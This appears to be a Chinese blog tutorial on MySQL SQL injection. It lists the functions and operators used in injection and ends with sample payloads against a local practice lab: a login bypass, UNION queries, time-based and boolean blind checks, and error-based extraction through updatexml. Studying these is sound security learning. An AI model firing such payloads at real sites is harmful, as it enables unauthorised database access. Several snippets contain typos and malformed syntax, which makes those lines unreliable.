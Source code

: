 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-Web应用框架分析-MySql注入方法逻辑运算及常用函数
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 1786754042
date: 2018-06-11 00:00:00
---
```

## MySql常用函数及逻辑运算
### 01 常用的函数
MySql内置函数：  
https://dev.mysql.com/doc/refman/5.7/en/dynindex-function.html  

MySql注入常用函数

	函数名称 函数功能
	system_user() 系统用户名
	user() 用户名
	current_user() 当前用户名
	session_user() 连接数据库的用户名
	database() 数据库名
	version() @@version 数据库版本
	@@datadir 数据库路径
	@@basedir 数据库安装路径
	@@version_compile_os 操作系统
	count() 返回执行结果数量
	concat() 没有分隔符地连接字符串
	concat_ws() 含有分隔符地连接字符串
	group_concat() 连接一个组的所有字符串，并以逗号分隔每一条数据
	load_file() 读取本地文件
	into outfile 写文件
	ascii() 字符串的ASCII代码值
	ord() 返回字符串第一个字符的ASCII值
	mid() 返回一个字符串的一部分
	substr() 返回一个字符串的一部分
	length() 返回字符串的长度

	left() 返回字符串的最左面几个字符
	floor() 返回小于或等于x的最大整数
	rand() 返回0和1之间的一个随机数
	extractvalue() 
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string（Xpath格式的字符串）
	作用：从目标XML中返回包含所查询值的字符串
	updatexml()
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string（Xpath格式的字符串）
	第三个参数：new_value，String格式，替换查找到的符号条件的数据
	作用：改变文档中符合条件的节点的值
	sleep() 让此语句运行N秒钟
	if() 
	>  SELECT IF(1>2,2,3);
	-> 3
	char()
	返回整数ASCII代码字符组成的字符串
	STRCMP() 比较字符串内容
	IFNULL() 假如参数1不为NULL，则返回值为参数1，否则其返回值为参数2
	exp() 返回e的x次方

---

	运行
	select system_user(); 
	select user();
	select current_user();
	select session_user();

	select show databases;
	use security
	select database();

	select version();
	select @@version;
	select @@datadir;
	select @@basedir;
	select @@version_compile_os;
	select count(*) from users;
	select count(1) from users;

	select concat(username,password) from users;
	select concat_ws(',',username,password) from users;
	select concat_ws(0x7e,username,password) from users;//~
	select gruop_concat(username) from users;

	select 'mysql' into outfile '/tmp/mysql';
	select load_file('/tmp/mysql');

	select ascii('a');
	select ord('adkfjk'); // 字符串第一个字符的ascii
	select mid('bdkfjk',1,1); // b 从第一位开始取第一个字符
	select mid('bdkfjk',1,1); // bd
	select substr('bdkfjk',1,2); //bd
	select substr('bdkfjk',1,4); //bdkf

	select length('dfdf'); // 4

	select left('dfdfdf',2) // df
	select floor(2.4); // 2
	select floor(5.6); // 5

	select rand(); // 0~1之间随机数

	select sleep(2); 

	select if(1<2,2,3);

	char(97);

	select strcmp('a','b'); // -1 对比两个值
	select strcmp('a','a'); // 0

	select ifnull(null,1);
	select ifnull(2,1);

	select exp(2); // 自然对数e 的几次方

XPath  
http://www.w3school.com.cn/xpath/  



#### MySql运算符
算术运算符：  

* \+ 加法运算
* - 减法运算
* \* 乘法运算
* ／ 除法运算
* % 求余运算
* DIV 除法运算，同”／“
* MOD 求余运算，同”%“

比较运算符：
  
* \> 大于
* < 小于
* = 等于
* \>= 大于等于
* <= 小于等于
* != 或 <> 不等于
* IS NULL 为空
* IS NOT NULL 不为空
* BETWEEN AND 在..之间
* IN 包含
* NOT IN 不包含
* LIKE 模式匹配
* NOT LIKE 模式匹配
* REGEXP 正则表达式

逻辑运算符：  

* && 或 AND 与
* \|\| 或 OR 或
* ! 或 NOT 非
* XOR 异或


---

	select 1+2;
	
	select id,username from users where id between 1 and 4;
	
	select id,username from users where username in ('admin','tesdt');
	
	select id,username from users where username not in ('admin','tesdt');
	
	select id,username from users where username like 'admin';
	
	select id,username from users where username like '%ad%';
	
	select user() regexp 'root';
	
		
	
### 02 逻辑运算
#### 逻辑运算符： AND <--> OR

	select * from users where id=1; // true
	select * from users where id=1 and 1=1; // true
	select * from users where id=1 and 1=2; // false 返回 empty
	
	select * from users where id=1 or 1=2; // true 
	
	
---

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/01.jpeg)

	登录处的SQL语句：
	select * from users where username='admin' and pwd='pass';
	'or '1' = '1
	select * from users where username=''or '1'='1' and pwd=''or '1' = '1';
	

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/02.jpeg)

	and 1=2 union select 1,2,3-- // 1=2 false 执行union后面的语句
	select user() regexp '^ro' // ro开头的用户
	ascii(substr(select user()),1,1)=114 // 用户名为r的用户
	if(ascii(substr((select user(),1,1))=114,0,sleep(5))) // 如果用户名第一个字母是r就返回0，否则睡5秒
	(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=9) 
	updatexml(1,concat(0x7e,(select @@version),0x7e),1) // 报错信息打印版本
	
	
---

	http://127.0.0.1/Less-1/?id=1 and 1=2 union select 1,2,3--+
	http://127.0.0.1/Less-1/?id=1 and 1=2 union select 1,user(),3--+
	

